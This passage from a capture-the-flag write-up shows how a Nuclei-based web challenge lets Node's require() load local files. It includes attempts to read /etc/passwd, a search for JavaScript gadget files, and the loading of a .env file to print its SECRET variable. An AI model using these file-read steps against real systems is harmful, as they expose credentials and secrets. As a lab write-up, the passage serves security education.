 With that said, we should be able to read arbitrary files, right?

```shell
┌[siunam♥Mercury]-(~/ctf/idekCTF-2025/web/scanme)-[2025.08.06|17:01:04(HKT)]
└> node
[...]
> require('/etc/passwd');
/etc/passwd:1
root:x:0:0:root:/root:/bin/bash
        ^

Uncaught SyntaxError: Unexpected token ':'
```

Well, of course, it parses the file with a JavaScript parser. Therefore, the file must be a valid JavaScript/JSON syntax.

> Note: JSON's syntax is very similar to JavaScript. That's why it's called "JavaScript Object" Notation.

With this in mind, maybe there's a JavaScript file in the local file system has some gadgets that allow us to read arbitrary files. Let's go find them!

```shell
nuclei@f72b3012b71b:~$ find / -type f -name "*.js" 2>/dev/null
/home/nuclei/nuclei-templates/helpers/payloads/CVE-2018-25031.js
/usr/local/lib/python3.11/site-packages/werkzeug/debug/shared/debugger.js
/usr/local/go/src/cmd/trace/static/webcomponents.min.js
[...]
```

Turns out, there are lots of JavaScript files. At the meantime, I wonder if the environment variable file at path `/home/nuclei/.env` is a valid JavaScript syntax or not:

```shell
nuclei@f72b3012b71b:~$ cat ~/.env 
PORT=1337
SECRET="REDACTED"
```

Wait a minute, it is a valid JavaScript syntax! Here's a more "readable" code:

```javascript
var PORT = 1337;
var SECRET = "REDACTED";
```

Therefore, we should be able to import it and print it out!

```javascript
require('/home/nuclei/.env');
console.log(SECRET);
```

```json
{
    "output": "\u2705 No vulnerabilities or issues found.\n\n\u26a0\ufe0f Warnings/Errors:\n\n                     __     _\n   ____  __  _______/ /__  (_)\n  / __ \\/ / / / ___/ / _ \\/ /\n / / / / /_/ / /__/ /  __/ /\n/_/ /_/\\__,_/\\___/_/\\___/_/   v3.4.7\n\n\t\tprojectdiscovery.io\n\n[INF] Current nuclei version: v3.4.7 (latest)\n[INF] Current nuclei-templates version: v10.2.6 (latest)\n[WRN] Scan results upload to cloud is disabled.\n[INF] New templates added in latest release: 41\n[INF] Templates loaded for current scan: 1\n[WRN] Loading 1 unsigned templates for scan. Use with caution.\n[INF] Targets loaded for current scan: 1\n[INF] REDACTED\n[INF] Scan completed in 132.73679ms. No results found.\n",
    "success": true
}
```
